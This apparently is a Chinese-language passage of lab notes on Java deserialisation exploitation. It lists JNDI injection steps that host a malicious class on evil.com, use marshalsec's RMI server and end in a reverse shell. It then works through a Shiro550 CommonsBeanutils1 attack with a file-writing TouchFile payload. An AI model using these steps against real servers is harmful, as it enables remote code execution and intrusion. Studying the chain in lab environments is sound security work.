 接下里就是正常的JNDI注入的步骤啦：

1. 把`JavaShell_WithoutMain.java`编译成`JavaShell_WithoutMain.class`
2. 起一个web服务，将`JavaShell_WithoutMain.class`扔到web服务器上去（[evil.com:80](http://evil.com:80)）
3. marshalsec起一个rmi服务器，监听9999端口，并制定加载远程类`JavaShell_WithoutMain.class`
4. 发送恶意报文，就可以反弹shell了

# Shiro550

这里想验证一下fastjson的java文件在此漏洞是否可用（与文章标题没有关系），在此漏洞环境达到**代码执行**的目的

但是发现了除了使用命令执行，其他代码执行的打法都没有结果

## 问题：

可能是以下内容出现问题：

1. 攻击链，我一直都是用CommonsBeanutils1去进行攻击的；
2. payload，java文件可能不能和fastjson完全一样；
3. 攻击方式，我一直是直接打base64的payload过去；

### 第一点问题

命令执行是没有问题的

### 第二点问题

尝试修改了经过yso处理前的文件，发现攻击成功，以代码执行创建文件为例：

fastjson的`TouchFile.java`是这样的

```Java
public class TouchFile {
    static {
        String filePath = "/tmp/successsss";

    try {
      java.io.FileOutputStream f1 = new java.io.FileOutputStream(filePath);
      f1.write(112);
      f1.close();
}     catch (Exception e1) {
      e1.printStackTrace();
}
    }
}
```

但是`TouchFile.txt`就需要这样就可以了

```text
java.io.FileOutputStream f1 = new java.io.FileOutputStream("/tmp/successsss");
f1.write(112);
f1.close();
```
